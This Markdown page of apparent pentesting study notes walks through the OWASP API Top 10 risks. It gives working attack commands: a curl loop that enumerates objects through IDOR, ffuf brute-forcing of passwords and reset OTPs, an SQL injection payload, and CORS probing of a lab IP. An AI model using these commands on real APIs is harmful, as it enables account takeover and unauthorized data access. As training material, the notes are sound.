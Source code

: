 ```yaml
---
layout: default
title: API attacks
permalink: /Web/API/
---
```


# OWASP API Top 10 Security Risks using a RESTful web API

## Broken Object Level Authorization (BOLA)
Web APIs allow users to request data or records by sending various parameters, including unique identifiers such as Universally Unique Identifiers (UUIDs), also known as Globally Unique Identifiers (GUIDs), and integer IDs. Failing to properly verify that a user has permission to view a specific resource through object-level authorization mechanisms can lead to security vulnerabilities.
BOLA also known as an Insecure Direct Object Reference (IDOR) vulnerability.

Mass abuse BOLA from terminal:
```
for ((i=1; i<=20; i++));
do curl -s -w "\n" -X 'GET' \
'http://$ip:$port/endpoint/'$i'' \
-H 'accept: application/json' \
-H 'Authorization: Bearer eyJhbG<SNIP>' | jq;
done
```

## Broken Authentication
No rate-limiting on the endpoint, so brute-forcing is possible.
```
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://$ip:$port/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100
```
### Brute-forcing OTPs and Answers of Security Questions
If brute-forcing passwords is infeasible due to strong password policies, we can attempt to brute-force OTPs or answers to security questions to reset passwords.
Send a password reset and then fuzz the OTP:
```
ffuf -u http://$ip:$port/api/v1/authentication/customers/passwords/resets \
-X POST \
-H "accept: application/json" \
-H "Content-Type: application/json" \
-d '{"Email":"$email","OTP":"FUZZ","NewPassword":"123456"}' \
-w /opt/useful/seclists/Fuzzing/4-digits-0000-9999.txt
```
## Broken Object Property Level Authorization
### Excessive Data Exposure
Example: Exposure of Sensitive Information Due to Incompatible Policies. <br>
It is typical for e-commerce marketplaces to allow customers to view supplier details. However, if the response after invoking the `/api/v1/suppliers GET` endpoint includes also the email and phoneNumber fields of the suppliers, then costumers can circumvent the marketplace entirely and contact suppliers directly to purchase goods (at a discounted price).

### Mass Assignment
Example: Improperly Controlled Modification of Dynamically-Determined Object Attributes. <br>
Maybe the `/api/v1/supplier-companies PATCH` endpoint allows sending a value for the isExemptedFromMarketplaceFee field, making the a company not get included in the companies required to pay the marketplace fee.

## Unrestricted Resource Consumption
A web API is vulnerable to Unrestricted Resource Consumption if it fails to limit user-initiated requests that consume resources such as network bandwidth, CPU, memory, and storage. 
We might be able to upload files without proper limitations or spamming an endpoint uncontrollably.

## Broken Function Level Authorization (BFLA)
A web API is vulnerable to BFLA if it allows unauthorized or unprivileged users to interact with and invoke privileged endpoints, granting access to sensitive operations or confidential information.

## Unrestricted Access to Sensitive Business Flows
Example: Access to product discount data which leads to Unrestricted Access to Sensitive Business Flows because it allows us to know the dates when supplier companies will discount their products and the corresponding discount rates. Combined with an Unrestricted Resource Consumption vulnerability, we can purchase all available stock on the day the discount starts and resell the products later.

## Server-Side Request Forgery (SSRF)
A web API is vulnerable to Server-Side Request Forgery (SSRF) (also known as Cross-Site Port Attack (XPSA)) if it uses user-controlled input to fetch remote or local resources without validation.
This vulnerability can be present, if one endpoint let's us modify fields such as File URIs. We can make this value to point to local data, e.g `/etc/passwd`. After setting this value, maybe we can find another endpoint to fetch this data.

## Security Misconfiguration
Security misconfigurations occur when web APIs are improperly set up or lack essential security controls. These issues can make APIs vulnerable to classic web attacks, such as SQL Injection, and expose them to risks through insecure HTTP headers or overly permissive configurations. <br>
Possible payload: `' OR 1=1 --`
 ### HTTP Headers and Additional Misconfigurations

In addition to SQL injection, the API also demonstrates insecure HTTP header configurations — particularly with CORS (Cross-Origin Resource Sharing).

Using curl, two test requests were performed:

Without Origin header:
```
curl -i http://94.237.54.201:41238/api/v1/suppliers/%27%20OR%201%3D%3D1%20--/count
```
→ The server treated it as a same-origin request and did not include CORS headers.

With Origin header:
```
curl -i -H "Origin: http://94.237.54.201:41238/" http://94.237.54.201:41238/api/v1/suppliers/%27%20OR%201%3D%3D1%20--/count
```
→ The server responded with:
```
Access-Control-Allow-Origin: *
```
This means any origin can send requests to the API, a severe security misconfiguration exposing it to Cross-Site Request Forgery (CSRF) and data exfiltration from malicious domains.



